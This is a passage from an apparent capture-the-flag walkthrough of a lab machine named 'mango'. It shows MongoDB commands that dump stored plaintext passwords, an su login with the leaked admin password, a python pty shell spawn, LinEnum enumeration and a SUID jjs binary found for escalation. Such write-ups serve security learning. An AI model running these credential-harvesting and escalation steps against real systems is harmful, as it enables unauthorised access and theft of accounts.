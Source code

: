 ```bash


Last login: Sat Apr 18 07:55:54 2020 from 10.10.14.9
mango@mango:~$ whoami
mango
```
Then I searched everypart of the shell but nothing was found over there so only thing I remind was the mongodb so I used it.


### Creds Extraction [Mongodb] 
Now to get the other users creds I searched mongo database with commands.

```
> show dbs
admin   0.000GB
config  0.000GB
local   0.000GB
mango   0.000GB
> use mango
switched to db mango
> show tables
users
> db.getCollection("users").find()
{ "_id" : ObjectId("5d8e25334f3bf1432628927b"), "username" : "admin", "password" : "t9KcS3>!0B#2" }
{ "_id" : ObjectId("5d8e25364f3bf1432628927c"), "username" : "mango", "password" : "h3mXK8RhU~f{]f5H" }
```
After using `admin`/`t9KcS3>!0B#2` user/password. I got the user shell and flag.

```bash
root@gr4n173:~# su admin
Password:
$ python3 -c "import pty;pty.spawn('/bin/bash')"
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@mango:/home/admin$ whoami
admin
admin@mango:/home/admin$ cat user.txt
79bf31c*********************
```

## Root 

Now for root part I upload a simple `LinEnum` in `admin@mango`  machine and run the script. After I lot of searched in the output of that script I found `SUID` files owned by user `admin`

```bash
admin@mango:/home/admin$ ./LinEnum.sh
[-] SGID files:                                                                                                                                       
.........
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
